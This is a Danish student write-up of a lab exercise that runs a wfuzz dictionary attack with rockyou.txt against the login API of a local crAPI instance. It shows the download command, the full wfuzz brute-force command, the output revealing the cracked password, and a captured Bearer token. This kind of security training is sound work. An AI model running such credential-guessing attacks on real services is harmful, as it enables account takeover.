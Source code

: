 Det kan ses da forsøg nummer 20 har en `200 OK` i stedet for `401` som de andre hvor de fejler. Resultatet bliver at jeg bliver givet en Bearer token i en responce til den sidste request.

```json linenums="0"
{
    "token": "eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ1c2VyQGEuY29tIiwiaWF0IjoxNzU5NzM1MDUzLCJleHAiOjE3NjAzMzk4NTMsInJvbGUiOiJ1c2VyIn0.goQKZS8JSNC760eod0DzpI86Ofcos7rBhRjiSU6EFhlkaLvp1T-WN8uZNYACc2GaQHPuKCzlF23S3Jig0T-zukxo9ETRdnclh5OSsZ0M1zDY8QaB_MzUrG3TD_QwpcYVBQo6bqvBJwDsfWAsmQtvnJ_qjZqHEtMPg92uB6mQCtssv7amXrGpZXnynpzdha9U67som-yfzMz9FnwcESv0PK2d0dEwevt7A-zD95lQnfsd33de8aLuStK5z-BRcbxjuvrM_hoCz3fZbS4r6VaP6n21DEaHs9zt8tRzjXvWLOIAaHFUSIZ0kVFj8fDcJ4wWTHr18tj8SHC-loYYAKDxnA",
    "type": "Bearer",
    "message": "Login successful",
    "mfaRequired": false
}
```

### Del opgave - Dictionary attack med WFuzz

??? note "Opgave beskrivelse"

    1. Create a crAPI user with a password found in rockyou.txt.
    2. Execute the dictionary attack using the following parameters:
        - Request body format: {"email": "<email>", "password": "<password>"}
        - Hide HTTP 401 responses.
        - Set Content-Type: application/json header.
        - Use rockyou.txt as the wordlist.


Jeg bruger kali linux via Windows WSL, og downloader rockyou.txt med denne kommando: `wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`.

Laver en bruger "bob" med et password der er i `rockyou.txt`

prøver at bruge wfuzz men den får en fejl. Dette fixede det: `sudo apt install -y python3-setuptools python3-pip`

Efter at kigge i [dokumentationen](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html) og lidt hjælp fra chatGPT så nåede jeg frem til en kommando der ser sådan ud: 

`wfuzz -z file,rockyou.txt -H "Content-Type: application/json" -d '{"email":"bob@bob.com","password":"FUZZ"}' http://127.0.0.1:8888/identity/ap
i/auth/login`

- -z er det payload men vil bruge. Her bruger jeg en fil.
- -H bruger jeg til at specificere en http header jeg vil bruge. Jeg bruger `Content-Type: application/json` da jeg gerne vil sende email og password som `JSON` i body message.
- -d bruger jeg til at definere POST data, som i dette tilfælde jo er `JSON`
- Så skriver jeg den URL som skal angribes

Her er resultatet:

```terminal linenums="0"
Target: http://127.0.0.1:8888/identity/api/auth/login
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000007:   401        0 L      2 W        76 Ch       "1234567"
000000015:   401        0 L      2 W        76 Ch       "lovely"
000000031:   401        0 L      2 W        76 Ch       "friends"
000000034:   401        0 L      2 W        76 Ch       "angel"
000000001:   401        0 L      2 W        76 Ch       "123456"
000000030:   401        0 L      2 W        76 Ch       "anthony"
000000033:   401        0 L      2 W        76 Ch       "purple"
000000032:   401        0 L      2 W        76 Ch       "butterfly"
000000029:   401        0 L      2 W        76 Ch       "soccer"
000000003:   200        0 L      2 W        533 Ch      "Bob123456789!"
```